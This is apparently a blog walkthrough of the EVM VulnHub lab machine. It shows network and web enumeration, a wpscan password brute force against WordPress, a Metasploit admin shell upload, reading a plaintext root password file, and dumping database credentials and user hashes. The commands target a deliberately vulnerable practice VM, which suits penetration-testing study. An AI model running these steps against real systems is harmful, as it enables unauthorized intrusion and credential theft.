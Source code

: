 ```yaml
---
title: "EVM"
date: 2021-05-04T10:36:01+05:30
draft: false
toc: false
images:
tags:
  - VulnHub
  - WordPress
  - MySQL
---
```


## EVM VulnHub Walkthrough

### Recon & Enumeration

- `sudo netdiscover -i eth0 -r 10.0.2.0/24` 
- Toppo - `10.0.2.5` 

#### RustScan + Nmap

- `sudo rustscan -a 10.0.2.5 -- -sS -A` 

```
10.0.2.5:22  => OpenSSH 7.2p2 
10.0.2.5:53  => domain 
10.0.2.5:80  => Apache httpd 2.4.18 
10.0.2.5:110 => Dovecot pop3d 
10.0.2.5:139 => Samba smbd 3.X - 4.X 
10.0.2.5:143 => Dovecot imapd 
10.0.2.5:445 => Samba smbd 4.3.11-Ubuntu 
```

- ```
  nmap --script smb-enum-* -p 139,445 10.0.2.5
  ```

#### GoBuster

- ```
  gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.2.5 -t 60 -x txt
  ```

```
/wordpress            (Status: 301) [Size: 308] [--> http://10.0.2.5/wordpress/]
/server-status        (Status: 403) [Size: 296]
```
- If you check the default Apache page at `http://10.0.2.5`, it says: `you can find me at /wordpress/ im vulnerable webapp :)` 

---

### Exploitation

- ```
  wpscan --url http://10.0.2.5/wordpress -e at -e ap -e u
  ```

```
-e = enumerate 
at = all themes
ap = all plugins
u = user IDs
```

```
c0rrupt3d_brain 
Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
Confirmed By: Login Error Messages (Aggressive Detection) 
``` 

- ```
  wpscan --url http://10.0.2.5/wordpress -U c0rrupt3d_brain -P /usr/share/wordlists/rockyou.txt -t 60
  ```

```
Valid Combinations Found:
Username: c0rrupt3d_brain, Password: 24992499
```

- For next step, we need Metasploit: `msfconsole` 
- `search wordpress admin` 
- ```
  use exploit/unix/webapp/wp_admin_shell_upload
  ```

- `options`
- `set RHOSTS 10.0.2.5`
- `set USERNAME c0rrupt3d_brain`
- `set PASSWORD 24992499`
- `set TARGETURI /wordpress` 
- `run` 
- Type `shell` in the meterpreter shell that appears after the exploitation is complete. Then run python code to spawn a bash shell. 

![EVM WordPress Metasploit Exploitation](/imgs/evm/EVM_wordpress_metasploit_exploitation.png)

- `python3 -c 'import pty;pty.spawn("/bin/bash")'` 
- `whoami` => `www-data` 
- `cd /home && ls -la` 
- `cd root3r && ls -la` 
- `cat test.txt` => `123` - nothing useful (this actually turned out to be database password).
- `cat .root_password_ssh.txt` => `willy26` 

---

### Privilege Escalation

- `su root`: `willy26` 
- `whoami` => `root` 
- `cd /root && ls -la` 

![EVM Root Proof](/imgs/evm/EVM_root_proof.png)

- `cat proof.txt` 
```
voila you have successfully pwned me :) !!!
:D
```

---

### Post Exploitation

#### WordPress Configuration Files

- `cd /var/www/html && ls -la` shows `wp-config.php` file. 
- `cat wp-config.php` 
```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'hackme_wp' );

/** MySQL database username */
define( 'DB_USER', 'root' );

/** MySQL database password */
define( 'DB_PASSWORD', '123' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
- We get hard coded credentials to the database from the config file `wp-config.php`: 
```
DB_NAME = hackme_wp
DB_USER = root
DB_PASSWORD = 123
```
- MySQL database is usually stored in `/var/lib/mysql/`. 

#### MySQL Database Data Extraction

- [Basic MySQL Commands](https://book.hacktricks.xyz/pentesting/pentesting-mysql#basic-and-interesting-mysql-commands)

- `mysql -u root -p` => `123` 
- `show databases;`
```sql
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| vulnwp             |
+--------------------+
```
- `use mysql;` 
- `SELECT user FROM user;` 
```sql
SELECT user FROM user;
+------------------+
| user             |
+------------------+
| debian-sys-maint |
| mysql.session    |
| mysql.sys        |
| root             |
+------------------+
```
- `use vulnwp;`
- `show tables;` 
- `SELECT * FROM wp_posts;` will list all the posts from database. 
- `SELECT * FROM wp_users;` 
```sql
SELECT * FROM wp_users;
+----+-----------------+------------------------------------+-----------------+-------------------+----------+---------------------+---------------------+-------------+-----------------+
| ID | user_login      | user_pass                          | user_nicename   | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name    |
+----+-----------------+------------------------------------+-----------------+-------------------+----------+---------------------+---------------------+-------------+-----------------+
|  1 | c0rrupt3d_brain | $P$BeIRcDvfjdzumCYjeRfShVUMy8BkXf/ | c0rrupt3d_brain | vuln@localhost.ws |          | 2019-10-31 21:47:00 |                     |           0 | c0rrupt3d_brain |
+----+-----------------+------------------------------------+-----------------+-------------------+----------+---------------------+---------------------+-------------+-----------------+
```
- `SELECT * FROM wp_comments;` to see all the comments. 
- We can try other tables and databases but since we already have root access and all the credentials, this much should be more than enough. 

